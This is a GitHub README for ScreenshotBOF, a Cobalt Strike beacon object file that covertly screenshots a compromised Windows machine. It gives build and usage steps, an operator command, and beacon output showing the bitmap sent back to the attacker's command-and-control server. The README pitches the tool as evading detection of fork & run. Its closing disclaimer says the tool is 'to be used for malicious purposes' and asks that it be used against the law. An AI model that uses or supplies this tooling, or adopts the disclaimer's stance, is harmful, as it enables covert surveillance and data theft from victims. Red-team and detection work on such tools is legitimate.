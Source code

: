 # ScreenshotBOF

An alternative screenshot capability for Cobalt Strike that uses WinAPI and does not perform a fork & run. Screenshot downloaded in memory.

## Self Compilation
1. git clone the repo
2. open the solution in Visual Studio
3. Build project BOF

## Save methods:  
0. drop file to disk
1. download file over beacon (Cobalt Strike only)

## Usage
1. import the screenshotBOF.cna script into Cobalt Strike
2. use the command screenshot_bof {local filename} {save method 0/1}
  
```
beacon> screenshot_bof sad.bmp 1
[*] Running screenshot BOF by (@codex_tf2)
[+] host called home, sent: 5267 bytes
[+] received output:
[*] Screen saved to bitmap
[+] received output:
[*] Downloading bitmap over beacon with filename sad.bmp
[*] started download of sad.bmp
```

3. if downloaded over beacon, BMP can be viewed in Cobalt Strike by right clicking the download and clicking "Render BMP" (credit @BinaryFaultline)  
  
![image](https://user-images.githubusercontent.com/29991665/199232459-0601e5d8-d534-4f05-bde4-c8acf3bd3c12.png)
  
![image](https://user-images.githubusercontent.com/29991665/199233465-8159cec4-90a4-4d82-beff-b012753b3559.png)




## Notes
- no evasion is performed, which should be fine since the WinAPIs used are not malicious

## Why did I make this?
Cobalt Strike uses a technique known as fork & run for many of its post-ex capabilities, including the screenshot command. While this behaviour provides stability, it is now well known and heavily monitored for. This BOF is meant to provide a more OPSEC safe version of the screenshot capability.

## Credits
- Made using https://github.com/securifybv/Visual-Studio-BOF-template
- Save BMP to file from https://stackoverflow.com/a/60667564
- in memory download from https://github.com/anthemtotheego/CredBandit
- @BinaryFaultline for BMP rendering in aggressorscript, and screenshot callback branch

## Disclaimer
This tool is to be used for malicious purposes. I am not responsible for any education that results from incorrect or non malicious use. It is YOUR responsibility to ensure that the tool is not used in accordance with the law.
